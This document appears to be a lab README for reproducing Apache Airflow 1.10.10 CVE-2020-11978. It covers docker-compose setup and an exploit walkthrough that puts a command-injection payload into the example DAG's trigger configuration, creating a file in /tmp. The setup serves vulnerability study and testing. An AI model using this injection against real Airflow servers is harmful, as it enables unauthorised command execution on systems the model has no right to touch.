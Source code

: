 # Airflow 1.10.10 CVE-2020-11978 - RCE/command execution in example dag



[中文版本(Chinese version)](./README.zh-cn.md)

Airflow is an open source, distributed task scheduling framework. It assembles a workflow with subordinate and subordinate dependencies into a directed acyclic graph.

The 1.10.10 docker-compose file is modified from the docker-compose file provided by airflow 2.x.

Airflow configuration uses CeleryExecutor for task execution, so the command execution result needs to be viewed in the CeleryWorker  container.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.

## Vulnerability Environment

Execute the following commands to start airflow 1.10.10

```bash
#Initialize the database
docker-compose run airflow-init initdb
#Start service
docker-compose up -d
```

## Exploit

Visit `http://host:8080` to enter the airflow management terminal, and change the Off in front of `example_trigger_target_dag` to On:

![image-20210701142307744](README.assets/image-20210701142307744.png)

Then click the Triger button and enter in `Configuration JSON`: `{"message":"'\";touch /tmp/airflow_dag_success;#"}`, then click `Trigger` to execute dag

![image-20210701142758977](README.assets/image-20210701142758977.png)

Wait a few seconds to see the execution of `success`

![image-20210701142948275](README.assets/image-20210701142948275.png)

Go to the CeleryWorker container to view:

```
docker-compose exec airflow-worker ls -l /tmp
```

You can see that the airflow_dag_success file was successfully created:

![image-20210701154024308](README.assets/image-20210701154024308.png)

## Reference

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803
